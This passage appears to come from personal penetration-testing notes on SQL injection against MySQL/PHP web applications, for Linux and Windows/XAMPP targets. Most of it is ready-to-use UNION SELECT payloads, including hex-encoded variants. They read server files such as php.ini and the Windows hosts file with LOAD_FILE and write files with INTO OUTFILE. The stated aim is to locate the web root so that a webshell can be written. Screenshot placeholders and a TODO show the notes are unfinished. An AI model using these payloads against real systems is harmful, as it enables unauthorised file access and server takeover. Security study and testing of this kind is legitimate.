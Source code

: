 **Hex encoded**

```sql
' UNION SELECT 0x74657374, NULL INTO OUTFILE '/dev/shm/file.txt'#

' UNION SELECT 1, LOAD_FILE('/dev/shm/file.txt')#
```

`<insert_screenshot from any of the SQLi commands for directory enumeration>`

`<insert screenshot any of the OS enumeration from above>`

##### 2.2.2.2 - Windows

- Using SQL Query statements will disclose the PHP warning messages to find the absolute path of the web root directory.

TODO: Test these queries in XAMPP

```sql
' UNION SELECT 1, LOAD_FILE('c:\\xampp\\php\\php.ini')#

' UNION SELECT LOAD_FILE('c:\\xampp\\php\\php.ini'), 1#

' UNION SELECT LOAD_FILE('c:/WINDOWS/system32/drivers/etc/hosts'), NULL#

' UNION SELECT NULL, LOAD_FILE('c:/WINDOWS/system32/drivers/etc/hosts')#
```

- When you execute the `LOAD_FILE()` function. Keep an eye out the php warning syntax messages. It'll provide you the absolute path to write php files.

```sql
' UNION SELECT 'test', NULL INTO OUTFILE 'C:\\Windows\\Temp\\file.txt'#

' UNION SELECT 1, LOAD_FILE('C:\\Windows\\Temp\\file.txt')#

' UNION SELECT 'test', NULL INTO OUTFILE 'C:\\Windows\\Temp\\file.txt'#

' UNION SELECT 1, LOAD_FILE('C:\\Windows\\Temp\\file.txt')#
```

**Hex encoded**

```sql
' UNION SELECT 0x74657374, NULL INTO OUTFILE 'C:\\Windows\\Temp\\file.txt'#

' UNION SELECT 1, LOAD_FILE('C:\\Windows\\Temp\\file.txt')#
```

`<insert_screenshot from any of the SQLi commands for directory enumeration>`

`<insert screenshot any of the OS enumeration from above>`

##### 2.2.2.3 - General

- We'll be using the SQL queries to enumerate file destination that may give us the directory web root path to write the webshell.
